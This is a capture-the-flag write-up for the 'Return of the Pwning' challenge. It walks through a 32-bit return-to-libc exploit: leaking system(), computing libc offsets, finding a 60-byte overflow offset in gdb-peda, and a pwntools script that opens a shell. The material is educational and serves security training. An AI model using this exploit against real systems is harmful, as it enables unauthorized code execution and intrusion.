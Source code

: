 # Writeup [Return of the Pwning](./README.md)

First, we see some hints in both the title of the task and the URL provided. Both mention `return`, which may be a sign that you should use Return Oriented Programming (ROP) to solve this task. 

Now, let's check out what happens testing the task using Netcat:

```
nc return.tghack.no 1310
```

Which outputs the following:
```
system: 0xf75bc940
   .-'''-.      ,-----.         _______    .-./`)     ____       .---.                   
  / _     \   .'  .-,  '.      /   __  \   \ .-.')  .'  __ `.    | ,_|                   
 (`' )/`--'  / ,-.|  \ _ \    | ,_/  \__)  / `-' \ /   '  \  \ ,-./  )                   
(_ o _).    ;  \  '_ /  | : ,-./  )         `-'`"` |___|  /  | \  '_ '`)                 
 (_,_). '.  |  _`,/ \ _/  | \  '_ '`)       .---.     _.-`   |  > (_)  )                 
.---.  \  : : (  '\_/ \   ;  > (_)  )  __   |   |  .'   _    | (  .  .-'                 
\    `-'  |  \ `"/  \  ) /  (  .  .-'_/  )  |   |  |  _( )_  |  `-'`-'|___               
 \       /    '. \_/``".'    `-'`-'     /   |   |  \ (_ o _) /   |        \              
  `-...-'       '-----'        `._____.'    '---'   '.(_,_).'    `--------`              
                                                                                         
.-------.         .-''-.      ____       .---.      .-./`)  ,---------.     ____     __  
|  _ _   \      .'_ _   \   .'  __ `.    | ,_|      \ .-.') \          \    \   \   /  / 
| ( ' )  |     / ( ` )   ' /   '  \  \ ,-./  )      / `-' \  `--.  ,---'     \  _. /  '  
|(_ o _) /    . (_ o _)  | |___|  /  | \  '_ '`)     `-'`"`     |   \         _( )_ .'   
| (_,_).' __  |  (_,_)___|    _.-`   |  > (_)  )     .---.      :_ _:     ___(_ o _)'    
|  |\ \  |  | '  \   .---. .'   _    | (  .  .-'     |   |      (_I_)    |   |(_,_)'     
|  | \ `'   /  \  `-'    / |  _( )_  |  `-'`-'|___   |   |     (_(=)_)   |   `-'  /      
|  |  \    /    \       /  \ (_ o _) /   |        \  |   |      (_I_)     \      /       
''-'   `'-'      `'-..-'    '.(_,_).'    `--------`  '---'      '---'      `-..-'        
By maritio_o *\(^_^)/*
```

There is a huge hint at the top of the output, which seems to output the address to `system`. You may verify that this is the address to `system` by writing `p system` into gdb-peda.
It is provided in the output to act as an information leak. All the other output is only there to make it look pretty.

> System is a function that may be used to run commands. It is not uncommon that pwn tasks use `system` to spawn a shell. 

We need three things in order to solve this task:
1. The libc version
2. The offset to `/bin/sh`
3. The offset to `system`

Thankfully, the libc version is provided to us in the task description. We can download the binary and use this to find the required offsets. 

As an aside, it can be useful to find the libc version used when running a binary locally if 
the local version of libc doesn't match the one used remotely. 
You have to download the libc version from you environment if you want to try out the task on your own machine. 
Fetch the libc version by using the following commands:
```
$ ldd ./rop32
	linux-gate.so.1 =>  (0xf77cf000)
	libdl.so.2 => /lib32/libdl.so.2 (0xf77a8000)
	libc.so.6 => /lib32/libc.so.6 (0xf75f4000)
	/lib/ld-linux.so.2 (0x5657b000)

```
Here, we see that the libc version is `libc.so.6`. Click [here](http://man7.org/linux/man-pages/man1/ldd.1.html) to read about the terminal comman `ldd`.

Now, we may use the libc library to find the offset to `/bin/sh`. 
We copy the library to the current folder, and then find the offset to `/bin/sh` with the following commands:
```sh
$ cp /lib32/libc.so.6 .
$ strings -t x libc.so.6 | grep /bin/sh 
 15900b /bin/sh
```

At last, we must find the offset to `system`. You may use the following command:
```
$ nm -D libc.so.6 | grep system
0003a940 T __libc_system
00110820 T svcerr_systemerr
0003a940 W system
```
The last output line contains the offset to `system`. To read about the terminal comman `nm`, follow [this link](http://man7.org/linux/man-pages/man1/nm.1p.html).


Having this information, we may calculate the addresses we need to exploit the program. We need the libc base address, and the address to `/bin/sh/`. 
```
libc base address = system address - system offset
/bin/sh address = libc base address + /bin/sh offset
```

> You may verify the libc base address by entering `vmmap` in gdb-peda. The first libc is the libc base.

> You may verify the `/bin/sh` address by entering `x/s address` into gdb-peda, e.g. `x/s 0xf76a900b`.

When we want to run our exploit against the remote target, we simply replace the two offsets by the ones in the remote libc version.

Now that we have a plan for successful exploitation, we need to craft a payload. The payload has to contain the following:

1. padding up to the saved return address
2. address of system
3. saved return address from system, this can be anything as we're not returning back from system
4. first argument to system: pointer to `/bin/sh`

The first step is to find the correct amount of padding. `gdb-peda` makes this step easy with the `pattern_env` command:

```
gdb-peda$ pattern_env PWN 1024
gdb-peda$ r <<< `echo $PWN`
[...]
[----------------------------------registers-----------------------------------]
EAX: 0x48 ('H')
EBX: 0x0
ECX: 0xffffcfc0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AA")
EDX: 0x48 ('H')
ESI: 0xf7fb8000 --> 0x1b1db0
EDI: 0xf7fb8000 --> 0x1b1db0
EBP: 0x41416341 ('AcAA')
ESP: 0xffffd000 ("AAdAA3AA")
EIP: 0x48414132 ('2AAH')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x48414132
[------------------------------------stack-------------------------------------]
0000| 0xffffd000 ("AAdAA3AA")
0004| 0xffffd004 ("A3AA")
0008| 0xffffd008 --> 0x0
0012| 0xffffd00c --> 0xf7e1e637 (<__libc_start_main+247>:       add    esp,0x10)
0016| 0xffffd010 --> 0xf7fb8000 --> 0x1b1db0
0020| 0xffffd014 --> 0xf7fb8000 --> 0x1b1db0
0024| 0xffffd018 --> 0x0
0028| 0xffffd01c --> 0xf7e1e637 (<__libc_start_main+247>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x48414132 in ?? ()
gdb-peda$ patto 0x48414132
1212236082 found at offset: 60
```

The second peda command echoes the contents of the environment variable `PWN`, which was created by the `pattern_env`, command into the program's standard input. We can now verify that we can control the return address:

```
gdb-peda$ r <<< `python2 -c 'print "A"*60 + "BBBB"'`
[...]
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

The payload will look like this:
* 60 bytes of padding (e.g. A)
* address of `system()`
* 4 bytes of padding
* address of `/bin/sh`

Here is a solve script with all these pieces of information:
```python
from pwn import *

debug = True 
if debug == True:
    r = process("./rop32")
    # uncomment if using ssh
    #context(terminal = ["tmux", "splitw"])
    gdb.attach(r, """
        c
        """)
else:
    r = remote("localhost", 1337)

r.recvuntil("system:")
sys_address = r.recvline()[:-1] #strip last char (new line)
sys_address = int(sys_address, 16)

log.info("System: {}".format(hex(sys_address)))
# You may verify that the address is really system by writing 'p system' into gdb-peda

# Find offset to '/bin/sh'
# Find the libc version on the computer: ldd ./rop32  
# Copy to your current folder. E.g.: cp /lib32/libc.so.6 .   
# Find '/bin/sh': strings -t x libc.so.6 | grep "/bin/sh" -> 15900b /bin/sh
bin_sh_offset = 0x15900b

# Find offset to 'system': nm -D libc.so.6 | grep system -> 0003a940 W system
system_offset = 0x0003a940

# Find libc base
libc_base = sys_address - system_offset
log.info("libc base: {}".format(hex(libc_base)))
# Verify libc base by: 'vmmap' in gdb-peda. Always check the first libc for libc base

bin_sh_address = libc_base + bin_sh_offset
log.info("/bin/sh address: {}".format(hex(bin_sh_address)))
# Verify /bin/sh address by 'x/s address' in gdb-peda -> 0xf76a900b:	"/bin/sh"

payload = p32(sys_address) + "BBBB" + p32(bin_sh_address)
r.sendline("A"*60 + payload)

r.interactive()

```

Run the script, and then... Whoop whoop, I got the flag!

```
TG18{ROPropROPROPrOpRoPRopROp}
```
